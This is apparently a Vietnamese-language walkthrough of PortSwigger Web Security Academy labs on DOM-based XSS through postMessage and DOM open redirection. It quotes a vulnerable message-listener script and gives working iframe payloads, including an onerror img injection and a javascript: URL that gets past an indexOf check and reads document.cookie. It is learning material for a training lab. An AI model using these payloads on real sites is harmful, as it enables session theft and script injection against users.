 >Có thể thấy, đoạn script trên không có check nguồn cũng như validate message. Như vậy ta có thể dùng hàm **postMessage()** với message là XSS payload `<img src=1 onerror=print()` (Do dùng innerHTML). Để trigger được event trên, ta dùng iframe với nội dung như sau:
>`<iframe src="<LAB-DOMAIN>" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`

>Lưu vào exploit-server và thử **View exploit**, ta thấy hàm **print()** đã được kích hoạt thành công: ![image](https://hackmd.io/_uploads/SkH90ObUR.png)

>**"Deliver exploit to victim"** và hoàn thành bài lab: ![image](https://hackmd.io/_uploads/Sypz0OZL0.png)

# **2. Lab: [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) using web messages and a JavaScript URL**
>This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function.
![image](https://hackmd.io/_uploads/rJq5etZ8A.png)

>Tương tự bài trên, ứng dụng tồn tại một script lắng nghe **web message**. Khác với bài trên, message lần này yêu cầu là 1 url phải chứa `http:` hoặc `https:` vì dùng hàm **indexOf;** Đồng thời, nó sẽ được gán vào **location.href** nếu thỏa mãn điều kiện:![image](https://hackmd.io/_uploads/r1vX7YZIR.png)
```
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

Như vậy mình có thể `postMessage()` với message: `javascript:alert("https://test")`. Lúc này, nó thỏa điều kiện check url ở trên vì có chứa` https:`, và vì dùng sink location.href nên có thể trigger các hàm js bằng scheme `javascript:`: 
![image](https://hackmd.io/_uploads/SkJ1rt-LA.png)

>Tạo payload bằng iframe và lưu vào exploit-server. Message cụ thể: `javascript:print('https://test')`
>`<iframe src="https://0ac900aa031716b580e662ac00da003f.web-security-academy.net/"
onload="this.contentWindow.postMessage('javascript:alert(document.cookie)//http:','*')">`

>**View exploit**, ta thấy alert() thành công: ![image](https://hackmd.io/_uploads/SyZVBY-U0.png)

>**"Deliver exploit to victim"** và hoàn thành bài lab: ![image](https://hackmd.io/_uploads/SJ8GdYWIR.png)

# **3. Lab: DOM-based open redirection**
>This lab contains a DOM-based open-redirection vulnerability. To solve this lab, exploit this vulnerability and redirect the victim to the exploit server.
>![image](https://hackmd.io/_uploads/S1njB3MIA.png)

